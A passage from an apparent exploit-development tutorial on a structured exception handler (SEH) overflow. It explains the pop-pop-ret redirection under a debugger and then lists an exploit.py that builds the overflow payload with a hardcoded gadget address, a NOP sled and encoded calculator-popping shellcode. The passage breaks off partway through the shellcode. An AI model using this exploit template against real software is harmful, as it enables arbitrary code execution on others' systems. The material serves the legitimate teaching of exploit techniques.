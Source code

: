 Note from the above gif the key points:

* Once the program crashes with an exception and we continue running the program \(F9\), we hit our breakpoint at `0x637412c8` that contains the `pop pop ret` instructions;
* Once `pop pop` instructions are executed, `ret` instruction pops off the top topmost value`0141E768` from the stack, which is the SEH record we control, and jumps to it;
* Once execution jumps to `0141E768`, we see that first four instructions are actually are the bytes `42 4f 4f 4d` that represent our string `BOOM`, which means that at this point we have subverted the code execution flow and can start thinking about executing our shellcode.

### Adding Shellcode

We're now ready to start suplementing our payload with shellcode. Our payload should now look like this:

![](../../../.gitbook/assets/image%20%28987%29.png)

Let's modify our exploit skeleton to include some shellcode that pops a calculator:

{% code title="exploit.py" %}
```python
f = open("payload.txt", "wb")

# Offset into the first SEH record
payload = b"A" * 1012

# Address of the next SEH record
payload += b"BOOM"
# payload += b"\xeb\x0B\x90\x90"

# Current SEH handler (pop pop ret)
payload += b"\xc8\x12\x94\x63"

# NOP sled for reliability
payload += b"\x90"*10

# shellcode
buf = b""
buf += b"\xba\xbf\xaf\x65\x1b\xd9\xc4\xd9\x74\x24\xf4\x5d\x31"
buf += b"\xc9\xb1\x31\x31\x55\x13\x83\xed\xfc\x03\x55\xb0\x4d"
buf += b"\x90\xe7\x26\x13\x5b\x18\xb6\x74\xd5\xfd\x87\xb4\x81"
buf += b"\x76\xb7\x04\xc1\xdb\x3b\xee\x87\xcf\xc8\x82\x0f\xff"
buf += b"\x79\x28\x76\xce\x7a\x01\x4a\x51\xf8\x58\x9f\xb1\xc1"
buf += b"\x92\xd2\xb0\x06\xce\x1f\xe0\xdf\x84\xb2\x15\x54\xd0"
buf += b"\x0e\x9d\x26\xf4\x16\x42\xfe\xf7\x37\xd5\x75\xae\x97"
buf += b"\xd7\x5a\xda\x91\xcf\xbf\xe7\x68\x7b\x0b\x93\x6a\xad"
buf += b"\x42\x5c\xc0\x90\x6b\xaf\x18\xd4\x4b\x50\x6f\x2c\xa8"
buf += b"\xed\x68\xeb\xd3\x29\xfc\xe8\x73\xb9\xa6\xd4\x82\x6e"
buf += b"\x30\x9e\x88\xdb\x36\xf8\x8c\xda\x9b\x72\xa8\x57\x1a"
buf += b"\x55\x39\x23\x39\x71\x62\xf7\x20\x20\xce\x56\x5c\x32"
buf += b"\xb1\x07\xf8\x38\x5f\x53\x71\x63\x35\xa2\x07\x19\x7b"
buf += b"\xa4\x17\x22\x2b\xcd\x26\xa9\xa4\x8a\xb6\x78\x81\x65"
buf += b"\xfd\x21\xa3\xed\x58\xb0\xf6\x73\x5b\x6e\x34\x8a\xd8"
```